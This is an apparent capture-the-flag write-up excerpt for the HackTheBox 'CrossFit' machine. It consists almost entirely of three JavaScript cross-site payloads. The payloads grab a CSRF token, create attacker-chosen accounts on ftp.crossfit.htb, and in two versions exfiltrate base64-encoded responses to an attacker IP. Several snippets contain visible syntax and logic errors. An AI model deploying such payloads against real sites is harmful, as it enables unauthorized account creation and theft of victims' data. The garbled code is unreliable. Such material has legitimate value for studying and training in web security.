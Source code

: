 ```js
        reg_req.open("POST", "http://ftp.crossfit.htb/accounts", false);
        reg_req.withCredentials = true;
        reg_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
        reg_req.send("_token=" + token + "&username=bido&pass=bido12345");
    }
};

fetch_req.open("GET", "http://ftp.crossfit.htb/accounts/create", false);
fetch_req.withCredentials = true;
fetch_req.send();
```

Other possibility
```js
req = new XMLHttpRequest;
req.withCredentials = true;
req.onreadystatechange = function(){
	if(req.readyState == 4) {
		req2 = new XMLHttpRequest;
		req2.open('GET', 'http://10.10.14.2/' + btoa(this.responseText, false);
		req2.send();
		}
}
req.open('GET', 'http://ftp.crossfit.htb/accounts/create', false);
req.send();

regx = /token" value="(.*)"/g;
token = regx.exec(req.responseText)[1];

var params = '_token=' + token + '&username=jim&pass=test&submit=submit'
req.open('POST', "http://ftp.crossfit.htb/accounts", false);
req.setRequestHeader('Content-type', 'application/x-www-form-urleconded');
req.send(params);
```

IppSec version:
```js
var target = 'http://ftp.crossfit.htb/';
var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.withCredentials = true;
req1.send();
var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, "text/html");
var token = doc.getElementsByName('_token')[-].value;

var req2 = new XMLHttpRequest();
var params = "username=ippsec&pass=PleaseSubscribe&_token= + token";
req2.open('POST', 'http://ftp.crossfit.htb/accounts', false);
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(params);
var response2 = req2.responseText;
req2.send();

var req3 = new XMLHttpRequest();
req3.open('GET', 'http://10.10.14.4/' + btoa(response2), true);
req3.send();
```
